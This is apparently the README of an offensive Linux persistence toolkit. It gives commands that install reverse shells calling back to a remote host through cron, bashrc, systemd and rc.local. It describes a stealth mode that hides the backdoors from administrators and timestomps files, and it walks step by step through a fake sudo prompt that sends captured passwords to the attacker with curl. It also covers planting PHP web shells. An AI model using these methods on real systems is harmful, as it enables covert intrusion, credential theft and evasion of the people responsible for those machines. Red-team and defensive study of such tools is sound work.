 # linper

linux persistence toolkit

## files

- countermeasures/ - ways to harden/monitor common persistence mechanisms
- powershell/ - placeholder for the eventual winper
- CONTRIBUTE.md - notes on contributing to this project
- README.md - or not
- TODO.md - planned fixes & enhancements
- linper.sh - execute me

## features

- enumerate programs that can be used to execute a reverse shells and ways to make them persist a reboot
- automatically install reverse shells with all the required syntax, redirection, and pipes to minimize printing errors to screen or interrupting normal functions and processes
- supply custom crontab schedules for reverse shells
- look through /etc/shadow for accounts that can login via a password
- support for a stealth mode and the ability to clean up after itself
- place a function in ~/.bashrc to intercept and exfil sudo passwords
- place php reverse shells in web server directories

## credit

huge shoutout to the maintainers and contributers of [GTFOBins](https://gtfobins.github.io/) as their great resource laid the groundwork for much of this tool

also, thanks to Null Byte and [this article](https://null-byte.wonderhowto.com/how-to/steal-ubuntu-macos-sudo-passwords-without-any-cracking-0194190/) for the idea and some of the code behind the _Sudo Hijack Attack_ as implemented in this tool 

lastly, thank you to [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) for their examples on this too. 

## usage

### enumerating binaries for persistence

`bash linper.sh --dryrun`

`bash linper.sh -d`

### installing reverse shells

`bash linper.sh --rhost 10.10.10.10 --rport 4444`

`bash linper.sh -i 10.10.10.10 -p 4444`

#### stealth mode

`bash linper.sh --rhost 10.10.10.10 --rport 4444 --stealth-mode`

`bash linper.sh -i 10.10.10.10 -p 4444 -s`

### remove reverse shells to a given RHOST

`bash linper.sh --rhost 10.10.10.10 --clean`

`bash linper.sh -i 10.10.10.10 -c`

### emumerate defensive measures

`bash linper.sh --enum-defenses`

`bash linper.sh -e`

### advanced usage

run `bash linper.sh --examples` to see all usage examples

## methodology

### installing

1. enumerating methods and doors - the script enumerates binaries that can be used for executing a reverse shell (methods, e.g. bash), and then for each of those, it enumerates ways to make them persist (doors, e.g. crontab). If dryrun is not set, every possible method and door pair is installed <b>(the doors, and how often they execute, are explained in greater detail below)</b>

2. sudo hijack attack - enumerates whether or not the current user can sudo, if so, and if dryrun not set, it installs a function in their bashrc to "hijack" that binary

3. web server poison attack - enumerates whether or not the webserver's directories are writable and, if so and dryrun is not set, place a PHP reverse shell in them

4. shadow file enumeration - enumerates whether or not the shadow file is readable, if dryrun is not set then it will grep for non-system accounts

#### stealth mode

`-s, --stealth-mode various trivial modifications in an attempt to hide the backdoors from humans`

1. makes the files related to installing services hidden by prepending a "."

2. disables the ability to append methods to the bashrc - because if a connection fails it is noisy and prints to the screen

3. creates a `crontab` function in \~/.bashrc to override the `-r` and `-l` flags. `-r` is changed to remove all crontab entries <u>except</u> your reverse shells. `-l` is changed to list all the existing cron jobs <u>except</u> your reverse shells

4. converts ipv4 to decimal format

5. timestomps files modified to match the modification time of `/etc/passwd`

### cleaning

1. to remove shells from the bashrc (current user's and /etc/skel), it simply greps out any lines with the given RHOST and creates a temp file which is then used to replace the respective file

2. to remove shells from /etc/crontab and /var/spool/cron/crontabs. for /etc/crontab, it greps out any lines containing the supplied RHOST. for contab spool, it attempts to grep out any lines with the given RHOST from `crontab -l`, then greps for any remaining `[a-zA-Z0-9]` characters and pipes that to crontab. If the install fails, it assumes there are no other cron jobs so it runs `crontab -r`

3. to remove reverse shells from systemctl service files, it looks for the any file with the given RHOST in it and then looks for the name of said file in any other file and removes both

4. to remove shells from /etc/rc.local, it simply greps out any reference to the given RHOST and if the remaining file is two lines long it assumes there was nothing else to execute in rc.local so it removes the file (it checks for two lines because, at minimum, it must start with `!#/bin/sh -e` and end with `exit 0`)

5. to remove the `crontab` function installed by `-s, --stealth-mode`, it looks for the provided RHOST in ~/.bashrc and the string "function crontab". If both return true then it uses sed and grep to remove the function itself, writes to a temp file, and then replaces ~/.bashrc with the temp file 

6. to remove the `sudo` function, it looks for the provided RHOST, various variable names used by the function, and the string "function sudo". If all return true, then it uses sed and grep to remove the function itself, writes to a temp file, and then replaces ~/.bashrc with the temp file

7. to remove reverse shells from the web root and /etc/cron.\*, recursively greps for any file containing the provided RHOST and removes each file it finds

## execution frequency

this will explain how often different programs installed by the tool will execute

### doors

how often a reverse shell installed using each door will callback

- bashrc, every time bash initializes for the user it was installed with (e.g. interactive shell, or running "/bin/bash") 
- /var/spool/cron/crontabs/user, /etc/crontab, and /etc/cron.d/, custom (defualt: every minute)
- /etc/cron.hourly/, /etc/cron.daily/, /etc/cron.weekly/, /etc/cron.monthly/ - based on the settings in /etc/crontab
- systemctl, at system startup
- /etc/rc.local, at system startup
- /etc/skel/.bashrc, after a new user is created, and then any time that user initializes bash

### sudo hijack attack

how often the `sudo` alias will attempt to exfil passwords

- every time `sudo` is executed by the account linper was ran as
- make sure to have a web server running on port 443 on the IP you provided as the `-i, --rhost`

#### how it works

1. when linper is executed it puts a `sudo` function in the bashrc of the current user

after it is installed and once `sudo` is executed, the alias will:

2. takes note of where the actual `sudo` program is located on the system
3. determines where to create a file to store exfiltrated passwords
4. creates a fake `sudo` prompt and stores the input (password) as a variable
5. puts the contents of the variable in the file from step 3
6. sorts and deduplicates aforementioned file
7. base64 encodes the contents of the file and stores it as a variable
8. uses `curl` to exfiltrate the base64 as a GET parameter to https://$RHOST/
9. runs `exit` with the actual `sudo` program to start the sudo session timer
10. runs the supplied input of the original `sudo` command (not the password, but the program and arguments) with the actual `sudo` binary

### web server hijack attack

1. uses /etc/passwd to find the web root
2. installs php reverse shells in all writable directories under web root
